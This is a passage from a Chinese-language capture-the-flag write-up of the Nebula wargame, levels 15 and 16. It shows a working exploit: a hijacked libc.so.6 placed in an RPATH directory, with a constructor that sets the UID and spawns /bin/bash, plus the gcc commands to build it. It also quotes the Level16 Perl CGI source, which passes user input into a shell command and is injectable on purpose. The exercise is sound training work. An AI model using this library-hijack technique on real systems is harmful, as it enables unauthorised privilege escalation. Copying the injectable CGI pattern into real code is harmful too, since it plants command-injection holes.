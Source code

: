 可以发现有`RPATH`变量值为`/var/tmp/flag15`，查看`man dlopen`可以发现`RPATH`在连接器寻找目录的首位，因此我们可以构造自己的`libc.so.6`动态链接文件放在`/var/tmp/flag15`目录下。动态链接文件载入时会首先执行`_init`函数，因此我们可以重写此函数来达到目的。（重写`__libc_start_main`函数也可以）

``` c
__attribute__((constructor)) void __myinit(void) {
	setresuid(984, 984, 984);
	system("/bin/bash");
}
```

采用如下指令编译：

	gcc -shared -fPIC -o libc.so.6 libc1.c

运行flag15后发现提示：

> /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)

查阅资料，需要编写一version文件，在链接时加入版本信息：

	$ cat ver
	GLIBC_2.0 {};
	$ gcc -shared -fPIC -o libc.so.6 -Wl,--version-script,ver libc1.c

运行flag15后又现提示：

> /var/tmp/flag15/libc.so.6: version `GLIBC_2.1.3' not found (required by /var/tmp/flag15/libc.so.6)

经查阅资料后，发现原因可能为我们自己编写`libc.so.6`覆盖了原本的`libc.so.6`，它仅会加载一次；而我们自己编写的`libc.so.6`要用到本来的`libc.so.6`的函数，所以在运行的时候会提示找不到。解决方法是在编译`libc.so.6`的时候采用静态链接的方法。

	gcc -shared -fPIC -o libc.so.6 -static-libgcc -Wl,--version-script,ver,-Bstatic libc1.c

之后即可正确运行flag15程序，拿到shell。



## Level16

题目源码：

``` perl
#!/usr/bin/env perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub login {
  $username = $_[0];
  $password = $_[1];

  $username =~ tr/a-z/A-Z/; # conver to uppercase
  $username =~ s/\s.*//;        # strip everything after a space

  @output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;
  foreach $line (@output) {
      ($usr, $pw) = split(/:/, $line);
  

      if($pw =~ $password) {
          return 1;
      }
  }

  return 0;
}

sub htmlz {
  print("<html><head><title>Login resuls</title></head><body>");
```